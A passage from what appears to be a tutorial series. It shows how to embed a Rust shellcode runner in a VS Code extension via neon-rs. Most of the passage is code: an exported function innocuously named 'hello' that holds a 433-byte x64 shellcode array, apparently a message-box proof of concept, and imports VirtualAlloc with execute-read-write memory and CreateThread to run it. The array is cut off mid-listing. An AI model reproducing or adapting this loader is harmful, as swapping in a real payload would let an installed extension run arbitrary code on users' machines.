 So this gave me the idea for the next task :

> Task #3: Put rust in javascript (because clearly i have nothing better to do in life)

----

## Task #3

We would be using [neon-rs](https://neon-rs.dev/) for now. I highly recommend going through the [hello world](https://neon-rs.dev/docs/hello-world) example as we would be getting pointers from that tutorial. 

Again, create a new extension with:

```bash
yo code --skip-cache --ask-answered --open --extensionType ts --pkgManager npm  --extensionDisplayName Task3 --quick task3
```

First, we create a `lib.rs` file under the `src\` directory:

```rust
// src\lib.rs
use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;
use winapi::um::winnt::{MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE};
use std::ptr::null_mut;

#[neon::export]
fn hello()  {
    let x64shellcode: [u8; 433] = [
      0x48, 0x83, 0xec, 0x28, 0x48, 0x83, 0xe4, 0xf0, 0x48, 0x8d, 0x15, 0x66, 0x00, 0x00, 0x00, 0x48,
      0x8d, 0x0d, 0x52, 0x00, 0x00, 0x00, 0xe8, 0x9e, 0x00, 0x00, 0x00, 0x4c, 0x8b, 0xf8, 0x48, 0x8d,
      0x0d, 0x5d, 0x00, 0x00, 0x00, 0xff, 0xd0, 0x48, 0x8d, 0x15, 0x5f, 0x00, 0x00, 0x00, 0x48, 0x8d,
      0x0d, 0x4d, 0x00, 0x00, 0x00, 0xe8, 0x7f, 0x00, 0x00, 0x00, 0x4d, 0x33, 0xc9, 0x4c, 0x8d, 0x05,
      0x61, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x15, 0x4e, 0x00, 0x00, 0x00, 0x48, 0x33, 0xc9, 0xff, 0xd0,
      0x48, 0x8d, 0x15, 0x56, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x0d, 0x0a, 0x00, 0x00, 0x00, 0xe8, 0x56,
      0x00, 0x00, 0x00, 0x48, 0x33, 0xc9, 0xff, 0xd0, 0x4b, 0x45, 0x52, 0x4e, 0x45, 0x4c, 0x33, 0x32,
      0x2e, 0x44, 0x4c, 0x4c, 0x00, 0x4c, 0x6f, 0x61, 0x64, 0x4c, 0x69, 0x62, 0x72, 0x61, 0x72, 0x79,
      0x41, 0x00, 0x55, 0x53, 0x45, 0x52, 0x33, 0x32, 0x2e, 0x44, 0x4c, 0x4c, 0x00, 0x4d, 0x65, 0x73,
      0x73, 0x61, 0x67, 0x65, 0x42, 0x6f, 0x78, 0x41, 0x00, 0x48, 0x65, 0x6c, 0x6c, 0x6f, 0x20, 0x77,
      0x6f, 0x72, 0x6c, 0x64, 0x00, 0x4d, 0x65, 0x73, 0x73, 0x61, 0x67, 0x65, 0x00, 0x45, 0x78, 0x69,
      0x74, 0x50, 0x72, 0x6f, 0x63, 0x65, 0x73, 0x73, 0x00, 0x48, 0x83, 0xec, 0x28, 0x65, 0x4c, 0x8b,
      0x04, 0x25, 0x60, 0x00, 0x00, 0x00, 0x4d, 0x8b, 0x40, 0x18, 0x4d, 0x8d, 0x60, 0x10, 0x4d, 0x8b,
      0x04, 0x24, 0xfc, 0x49, 0x8b, 0x78, 0x60, 0x48, 0x8b, 0xf1, 0xac, 0x84, 0xc0, 0x74, 0x26, 0x8a,
      0x27, 0x80, 0xfc, 0x61, 0x7c, 0x03, 0x80, 0xec, 0x20, 0x3a, 0xe0, 0x75, 0x08, 0x48, 0xff, 0xc7,
      0x48, 0xff, 0xc7, 0xeb, 0xe5, 0x4d, 0x8b, 0x00, 0x4d, 0x3b, 0xc4, 0x75, 0xd6, 0x48, 0x33, 0xc0,
      0xe9, 0xa7, 0x00, 0x00, 0x00, 0x49, 0x8b, 0x58, 0x30, 0x44, 0x8b, 0x4b, 0x3c, 0x4c, 0x03, 0xcb,
```